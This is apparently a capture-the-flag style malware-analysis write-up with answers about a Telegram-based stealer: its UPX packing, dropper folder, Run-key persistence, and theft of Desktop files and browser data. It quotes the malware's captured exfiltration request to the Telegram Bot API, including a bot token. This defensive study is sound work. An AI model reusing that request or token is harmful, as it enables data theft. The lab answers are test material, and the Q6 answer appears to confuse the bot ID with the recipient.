#malware-analysis #python-server #wireshark #pestudio #procmon #hosts #static-analysis #dynamic-analysis #packed-exe #finished #cyberdefender-medium #reviewed

# Scenario

At the company, our network team noticed a significant increase in network activity on one of our computers in the last few days. After looking into it, we found out that an employee had downloaded untrusted software, but they weren't sure what it was doing. We need you to investigate carefully and find out what it does.

# Questions
## Q1 — Packing Tool Used
>Malicious software frequently employs diverse methods to hide its presence and avoid detection. What is the name of the packing tool that was utilized to obfuscate this malware?



High entropy of 7.590 and a UPX signature implies the file was packed with UPX.

**Answer:** `UPX`

---
## Q2 — Second-Stage Drop Location
>Since the malware author used multiple techniques to hide its functions, where does the malware place the second stage?

Let's run ProcMon and apply the following filters:
- Process name contains telestealer
- Operation is CreateFile

Then let's run telestealer.exe. We will see that it actually creates a file in a folder called Dropper.



**Answer:** `C:\Users\Administrator\AppData\Roaming\Dropper`

---
## Q3 — Persistence Registry Key Path
>Looking into how the malware persists on the machine, what's the path of the registry key it uses to do this?

Windows has a few common registry keys for programs to auto-run. These are usually found in a registry path that contains `CurrentVersion\Run`, so let's look for that.

We just add filters:
- Operation contains Reg
- Path contains CurrentVersion



Then check the output and we see our answer.



**Answer:** `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

---
## Q4 — Exfiltrated Data Path
>We've noticed unusual network traffic in recent days since the discovery of the malware. We need to determine what data it might have sent out. What's the path of the exfiltrated data?

For this we look only at File System Activity and Network Activity. When we scroll down through what the malware is doing, we find it is reading a file at `C:\Users\Administrator\AppData\Roaming\Dropper\Archive.zip`.



If we go to the Dropper directory we actually find a PowerShell script and editing it reveals the following,



A script to recursively get all files in the Desktop folder and child folders and compress them into `Archive.zip`.

Therefore, the malware is exfiltrating data from `C:\Users\Administrator\Desktop`.

It also methodically goes through browser artifacts:

- `INetCache` — **cached web content**
- `INetCache\Content.IE5` — **IE cached files**
- `INetCache\IE` — **IE/Edge cache**
- `INetCookies` — **session cookies**
- `History` — **browsing history**
- `History\History.IE5` — **detailed IE history**



**Answer:** `C:\Users\Administrator\Desktop`

---
## Q5 — Exfiltration Domain
>You've verified that the malware is gathering sensitive data from compromised machines. It mainly uses a separate communication channel to send out the data. What is the full domain that the malware uses to exfiltrate the data?

We run Wireshark and record the traffic while it is running. We are looking for a domain name, so we filter for DNS.
One of them stands out in particular, which is api.telegram.org.



The malware is likely exfiltrating the data through Telegram, which is a messaging app.

**Answer:** `api.telegram.org`

---
## Q6 — Recipient Username via Telegram Bot
>Once the channel is recognized, the next step is to determine who is receiving the exfiltrated data. Utilizing Python and the hosts file, can you determine the username of the recipient?

Now we know the malware is exfiltrating through the Telegram API.
Let's add a hosts record, which maps the API URL to our loopback instead, and have a listener for that traffic.
We can possibly get the username by analysing the captured network traffic.

We first edit the hosts file.



Then create a Python server that just accepts the traffic and sends back 200.

We then open Wireshark and monitor the loopback interface. We run telestealer.exe and see the traffic is reaching our listener, and its traffic also gets captured on Wireshark.





We can see the name of the Telegram user from the packet:
`14	50.917239	127.0.0.1	127.0.0.1	HTTP	164	GET /bot6369451776:AAEYgeQO4Onl5XIHhXTtzvcNOMahPNhhlZo/sendDocument?chat_id=7389421 HTTP/1.1 `

The name of the user is bot6369451776.

### Notes on Python Code



The Python code above does the following:
- Import socket
- Create a socket using `s = socket.socket()`
- `s.bind(('0.0.0.0', 80))` means listen on all network interfaces on port 80
- `s.listen(5)` means start listening and allow 5 queued connections
- Create a while-true loop so it keeps running
- In the loop we wait for someone to connect and get both the connection and the address of who connected through `conn, addr = s.accept()`
- `data = conn.recv` means retrieve 4096 bytes of the data the connection sent
- Then print the address and the decoded data
- Then reply using `conn.send(b"HTTP/1.1 200 \r\n\r\n")` which sends an HTTP 200 status OK back
- Then close the connection

An alternative to this is really just using

`python -m http.server 80`, and while this doesn't cleanly reply to the malware since this command is designed to serve files in the current directory, it will suffice as we are just aiming to capture the traffic generated by the malware in Wireshark.

**Answer:** `bot6369451776`

# Completion


